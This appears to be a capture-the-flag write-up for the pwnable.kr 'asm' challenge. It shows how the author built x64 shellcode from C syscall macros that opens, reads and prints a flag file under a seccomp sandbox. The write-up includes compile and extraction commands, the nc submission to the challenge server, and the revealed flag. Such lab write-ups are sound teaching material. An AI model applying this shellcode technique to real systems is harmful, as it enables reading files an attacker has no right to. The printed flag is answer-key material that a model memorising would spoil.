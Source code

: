 ### asm

even just to compile the code took me time to understand even after adding the -lseccopm flag.
Apparently the flag should be in the end, and I also did `sudo apt-get install libseccomp-dev`
`gcc asm_with_doc.c -o asm_with_doc -lseccomp`
the code `memset` the `sh` buffer with `0x90` which is `nop`
Lets see what is the rest of the code:
```
$ echo -e -n "\x48\x31\xc0\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\x48\x31\xf6\x48\x31\xff\x48\x31\xed\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xd2\x4d\x31\xdb\x4d\x31\xe4\x4d\x31\xed\x4d\x31\xf6\x4d\x31\xff" > code.txt

$ objdump -D -b binary -m i386 code.txt 

code.txt:     file format binary


Disassembly of section .data:

00000000 <.data>:
   0:	48                   	dec    %eax
   1:	31 c0                	xor    %eax,%eax
   3:	48                   	dec    %eax
   4:	31 db                	xor    %ebx,%ebx
   6:	48                   	dec    %eax
   7:	31 c9                	xor    %ecx,%ecx
   9:	48                   	dec    %eax
   a:	31 d2                	xor    %edx,%edx
   c:	48                   	dec    %eax
   d:	31 f6                	xor    %esi,%esi
   f:	48                   	dec    %eax
  10:	31 ff                	xor    %edi,%edi
  12:	48                   	dec    %eax
  13:	31 ed                	xor    %ebp,%ebp
  15:	4d                   	dec    %ebp
  16:	31 c0                	xor    %eax,%eax
  18:	4d                   	dec    %ebp
  19:	31 c9                	xor    %ecx,%ecx
  1b:	4d                   	dec    %ebp
  1c:	31 d2                	xor    %edx,%edx
  1e:	4d                   	dec    %ebp
  1f:	31 db                	xor    %ebx,%ebx
  21:	4d                   	dec    %ebp
  22:	31 e4                	xor    %esp,%esp
  24:	4d                   	dec    %ebp
  25:	31 ed                	xor    %ebp,%ebp
  27:	4d                   	dec    %ebp
  28:	31 f6                	xor    %esi,%esi
  2a:	4d                   	dec    %ebp
  2b:	31 ff                	xor    %edi,%edi

```
`dec` is "Decrease by 1" and the xor of a register with itself resets it to 0.
So it clears all the registers.

I need to write the name of the long file to a buffer such that the string itself is part
of the `.text` segment. Doing somthing like `char file[] = {'t','h','i' ...}`
didn't work, so I wrote a python stuff that generates the right C code:
```
$ python3
Python 3.6.5 (default, Apr  1 2018, 05:46:30) 
[GCC 7.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> a= 'this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong'
>>> b = list(a)
>>> for i in range(len(b)):
...     b[i] = "file[%d] = '%s';" % (i,b[i])
>>> for x in b:
...     print(x)
```
Now, the code should be self contained so it should implement the system calls.
After a samll research and reading I got it:
```
#define mysyscall3(name,ret,arg1,arg2,arg3)     \
 __asm__ volatile("syscall"                     \
                  : "=a"( ret )                 \
                  : "a"( __NR_##name ),         \
                    "D"( arg1 ),                \
                    "S"( arg2 ),                \
                    "d"( arg3 )                 \
                  : "memory", "rcx", "r11"      \
                  );

#define mysyscall1(name,ret,arg1)                               \
 __asm__ volatile ("syscall"                                     \
                   : "=a" (ret)                                 \
                   : "a" (__NR_##name),"D" (arg1));
````
Note that after the read and the write there should be a call to `exit` otherwise 
there will be a seg fault and the file input might not be wrriten.
So the code that calls the sys calls looks like
```
 int fd;
 int ret;

 mysyscall3(open,fd,file,0000,0);
 char buf[129];
   buf[128] = '\0';
 buf[127] = '\n';
 mysyscall3(read,ret,fd,buf,128);
 mysyscall3(write,ret,1,buf,128);
 mysyscall1(exit,ret,123);
``` 
Then compiled with:
```
$ gcc read_flag64.c -o read_flag64 -nostdlib
```
Then for taking  only the text segment:
```
$ objcopy --dump-section .text=output.bin read_flag64
```
and:
```
$ cat output.bin | ./asm
```
Then I found out that output.bin is larger than 1000 and the `asm` program reads up to 100 bytes, so I replaced some of identical `file[x] = 'o'` and `file[x] = '0'`
with `for` loops.
The final code is in `read_flag64_prepare.c`

 layout in the pwnable server is a bit different then the one compiled locally.
So better investigating directly in the site
This is what I found:
```
asm@ubuntu:/tmp$ cd /tmp
asm@ubuntu:/tmp$ vim read_da.c
asm@ubuntu:/tmp$ gcc read_da.c -nostdlib
asm@ubuntu:/tmp$ objcopy --dump-section .text=output.binxx a.out
asm@ubuntu:/tmp$ cat output.binxx | nc 0 9026
Welcome to shellcoding practice challenge.
In this challenge, you can run your x64 shellcode under SECCOMP sandbox.
Try to make shellcode that spits flag using open()/read()/write() systemcalls only.
If this does not challenge you. you should play 'asg' challenge :)
give me your x64 shellcode: Mak1ng_shelLcodE_i5_veRy_eaSy
�&.�k`>�+}S�k�
```
